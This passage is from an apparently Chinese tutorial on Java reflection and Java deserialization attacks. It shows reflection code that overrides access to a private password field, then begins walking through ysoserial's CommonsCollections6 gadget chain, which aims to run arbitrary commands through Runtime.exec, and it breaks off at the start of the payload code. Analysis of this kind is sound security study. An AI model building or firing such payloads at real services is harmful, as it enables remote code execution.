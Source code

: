 ```java
public class User {
    private String pass = "123321";
    @Override
    public String toString() {
        return "User{" +
                "pass='" + pass + '\'' +
                '}';
    }
}
```

testUser

```java
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class testUser {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, NoSuchFieldException {
        Class user = (new User()).getClass();
        //获取私有属性对象
        Field pass = user.getDeclaredField("pass");
        //关闭java访问控制检查，就可以给private属性赋值调用
        pass.setAccessible(true);
        User u = new User();
		System.out.println(u);
        pass.set(u,"liangban");
        System.out.println(u);
        System.out.println(pass.get(u));
    }
}

```

### 常用方法

获取类:forName / getClass

获取类下的函数: getMethod/s / getDeclaredMethod/s

执行类下的函数: invoke

获取类构造方法: getConstructor/s / getDeclaredConstructor/s



## CC链源码分析

我们需要payload经过反序列化过后会执行：`Runtime.getRuntime().exec("任意命令")`

CommonsCollections6.java 在\ysoserial\src\main\java\ysoserial\payloads\CommonsCollections6.java

```java
package ysoserial.payloads;

@SuppressWarnings({"rawtypes", "unchecked"})
@Dependencies({"commons-collections:commons-collections:3.1"})
@Authors({ Authors.MATTHIASKAISER })
public class CommonsCollections6 extends PayloadRunner implements ObjectPayload<Serializable> {

    public Serializable getObject(final String command) throws Exception {

        final String[] execArgs = new String[] { command };

        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
```